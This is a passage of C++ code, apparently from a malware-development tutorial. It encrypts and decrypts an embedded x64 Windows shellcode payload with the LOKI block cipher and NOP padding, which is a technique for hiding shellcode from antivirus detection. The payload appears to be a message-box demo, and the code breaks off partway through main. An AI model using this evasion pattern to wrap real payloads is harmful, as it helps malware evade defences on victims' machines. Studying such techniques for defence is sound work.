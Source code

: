 ```cpp
void loki_decrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    loki_decrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, remaining);
    loki_decrypt(pad, key);
    memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, remaining);
  }
}

int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (8 - my_payload_len % 8) % 8;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  loki_encrypt_shellcode(padded, pad_len);

  printf("encrypted shellcode: ");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  loki_decrypt_shellcode(padded, pad_len);

```